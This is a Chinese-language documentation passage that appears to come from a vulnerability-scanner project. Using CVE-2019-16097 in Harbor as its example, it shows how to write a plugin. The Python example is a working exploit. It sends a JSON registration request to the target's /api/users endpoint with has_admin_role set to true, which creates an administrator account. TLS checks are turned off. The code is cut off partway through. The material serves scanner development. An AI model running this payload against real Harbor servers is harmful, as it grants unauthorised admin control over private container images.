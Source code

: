 ## 插件模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms,ErrorHandling
import json
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url, RandomAgent, UnixTimestamp):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
```